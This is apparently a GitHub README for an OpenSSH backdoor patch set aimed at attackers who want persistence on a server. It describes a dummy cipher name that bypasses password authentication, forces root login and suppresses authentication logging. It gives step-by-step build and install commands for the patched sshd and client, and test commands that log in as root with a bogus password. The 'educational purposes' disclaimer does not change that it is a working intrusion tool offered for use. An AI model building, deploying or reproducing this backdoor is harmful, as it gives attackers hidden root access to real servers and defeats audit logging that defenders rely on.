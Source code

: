 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1. For educational/ethical purposes only!

## Why?

Consider using this method when you want persistence, but:

 - FIM is monitoring configuration files, but not binaries
 - You don't want to create a new backdoor user 
 - You don't want to deploy a reverse shell

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server, adding new users, overwriting credentials, or deploying an implant such as a reverse shell. 

The patch creates a dummy cipher suite, in this case `abs128-ctr` that functions as an activation phrase. Any client that sends this dummy cipher spec during the SSH [algorithm negotiation](https://datatracker.ietf.org/doc/html/rfc4253#section-7.1) will completely bypass PASSWD authentication on the patched server, and will also bypass authentication logging. Clients connecting with normal cipher specs will authenticate as normal.

Additionally, the patch overrides `PermitRootLogin`, allowing clients sending the activation phrase to login as root regardless of the OpenSSH server's restriction. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server binary in `/usr/local/sbin/sshd`. 

```
wget https://github.com/openssh/openssh-portable/archive/refs/tags/V_8_8_P1.tar.gz
gunzip V_8_8_P1.tar.gz
tar xvf V_8_8_P1.tar
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable-V_8_8_P1/
cd openssh-portable-V_8_8_P1/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u packet.c -i packet.c.patch
patch -u servconf.c -i servconf.c.patch
autoreconf
./configure --bindir=/tmp/ --sbindir=/tmp/
make -j 24
sudo make install
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /tmp/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root. The backdoor authentication will not be logged either during login or logout. 
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```
